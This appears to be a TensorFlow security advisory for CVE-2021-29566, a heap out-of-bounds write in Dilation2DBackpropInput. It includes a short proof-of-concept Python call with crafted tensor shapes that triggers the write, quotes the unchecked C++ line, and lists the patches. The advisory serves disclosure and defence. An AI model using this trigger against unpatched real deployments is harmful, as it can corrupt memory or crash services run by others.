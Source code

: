 ## TFSA-2021-054: Heap OOB access in `Dilation2DBackpropInput`

### CVE Number
CVE-2021-29566

### Impact
An attacker can write outside the bounds of heap allocated arrays by passing
invalid arguments to `tf.raw_ops.Dilation2DBackpropInput`:

```python
import machina as tf

input_tensor = tf.constant([1.1] * 81, shape=[3, 3, 3, 3], dtype=tf.float32)
filter = tf.constant([], shape=[0, 0, 3], dtype=tf.float32)
out_backprop = tf.constant([1.1] * 1062, shape=[3, 2, 59, 3], dtype=tf.float32)

tf.raw_ops.Dilation2DBackpropInput(
  input=input_tensor, filter=filter, out_backprop=out_backprop,
  strides=[1, 40, 1, 1], rates=[1, 56, 56, 1], padding='VALID')
```

This is because the
[implementation](https://github.com/machina/machina/blob/afd954e65f15aea4d438d0a219136fc4a63a573d/machina/core/kernels/dilation_ops.cc#L321-L322)
does not validate before writing to the output array.

```cc
in_backprop(b, h_in_max, w_in_max, d) += out_backprop(b, h_out, w_out, d);
```

The values for `h_out` and `w_out` are guaranteed to be in range for
`out_backprop` (as they are loop indices bounded by the size of the array).
However, there are no similar guarantees relating `h_in_max`/`w_in_max` and
`in_backprop`.

### Patches
We have patched the issue in GitHub commit
[3f6fe4dfef6f57e768260b48166c27d148f3015f](https://github.com/machina/machina/commit/3f6fe4dfef6f57e768260b48166c27d148f3015f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
